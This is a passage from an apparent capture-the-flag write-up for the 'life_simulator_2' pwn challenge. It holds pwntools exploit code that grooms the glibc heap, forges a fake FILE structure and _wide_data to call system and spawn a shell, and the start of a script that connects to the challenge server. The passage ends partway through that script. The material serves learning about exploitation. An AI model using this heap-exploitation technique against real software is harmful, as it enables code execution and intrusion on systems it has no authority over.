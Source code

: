 ```
0x5555555892e0: 0x000035326e686f00      0x0000000000000000
0x5555555892f0: 0x0000000000000000      0x0000000000000000
```

```python
# fill up tcache
for i in range(7):
    fire_worker(b"john" + str(i).encode())

# free chunks and make the fake file
for i in range(22, 30):
    fire_worker(b"john" + str(i).encode())

p.sendline(b"a"*0x410)

# forge fake file
payload = flat({
    # file
    0x40 + 0x00: b"  sh",
    0x40 + 0x20: 0,
    0x40 + 0x28: 1,
    0x40 + 0x88: libc_base + 0x205710,
    0x40 + 0xa0: heap_base + 0x14d30,
    0x40 + 0xd8: libc_base + 0x202228
}, filler=b"\x00")
payload += b"\x00"*(0x1f0 - len(payload))
p.sendline(payload)

# forge _wide_data
payload = flat({
    0x18: 0x0,
    0x30: 0x0,
    0xd8: libc.sym.system + libc_base,
    0xe0: heap_base + 0x14e08 - 0x68
}, filler=b"\x00")
payload += b"\x00"*(0xe0 - len(payload))
p.sendline(payload)
```

Finally, sending exit will give us our shell! Luckily, we didn't send too many
chunks this time, so remote wasn't that slow.

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./life_simulator_2_patched")
libc = ELF("./lib/libc.so.6")

context.binary = exe
context.aslr = False

if args.LOCAL:
    p = process([exe.path])
    if args.GDB:
        gdb.attach(p)
        pause()
else:
    p = remote("life-simulator-2.chals.sekai.team", 1337, ssl=True)

def add_company(name: bytes, budget: int):
    payload = b"add_company "
    payload += name + b" "
    payload += str(budget).encode()
```